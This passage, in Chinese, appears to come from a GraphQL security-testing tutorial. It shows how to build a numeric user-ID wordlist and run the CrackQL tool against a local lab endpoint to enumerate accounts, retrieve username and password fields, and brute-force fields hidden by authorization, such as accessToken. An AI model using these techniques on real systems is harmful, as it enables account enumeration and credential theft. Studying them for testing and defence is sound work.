 此查询使用了带有`Int`类型的`id`参数的`users`字段。因为查询接受`id`参数，我们可以尝试通过逐步提供数字用户标识符列表来枚举帐户。CrackQL 将渲染`{{id|int}}`字符串，并使用我们即将创建的词表中的单词替换它。

让我们创建一个可能的用户 ID 字典，作为一个单列 CSV 词表。使用一些 Bash 技巧可以轻松生成这样的列表：

```
# **cd ~/CrackQL**
# **echo "id" > sample-inputs/users.csv**
# **for id in `seq 1 100`; do echo $id >> sample-inputs/users.csv; done**
```

接下来，通过打印前五行来检查文件是否已正确生成：

```
# **head -5 sample-inputs/users.csv**

id
1
2
3
4
```

现在运行 CrackQL 以查找有效的用户 ID 并检索其用户名和密码字段：  

```
# **python3 CrackQL.py -t http://localhost:5013/graphql -q sample-queries/users.graphql**
**-i sample-inputs/users.csv --verbose**

[+] Verifying Payload Batch Operation...
[+] Sending Alias Batch 1 of 1 to http://localhost:5013/graphql...
===============================
Results:

Data:
[{'alias1': {'data': [{'password': '******', 'username': 'admin'}],
             'inputs': {'id': '120'}}},
 {'alias2': {'data': [{'password': '******', 'username': 'operator'}],
             'inputs': {'id': '120'}}},
 {'alias3': {'data': [], 'inputs': {'id': '120'}}},
```

你还可以以相同的方式，暴力破解你怀疑由于授权控制无法访问的字段，只需修改原始查询以包含这些潜在字段：  

```
query {
  users(id: {{id|int}}) {
     username
     password
 **accessToken**
 **birthDate**
 **location**
   }
}
```

CrackQL 会将所有尝试的输出保存在 *~/CrackQL/results* 文件夹中。如果这些字段是可访问的，你将在该处看到相应的响应。  
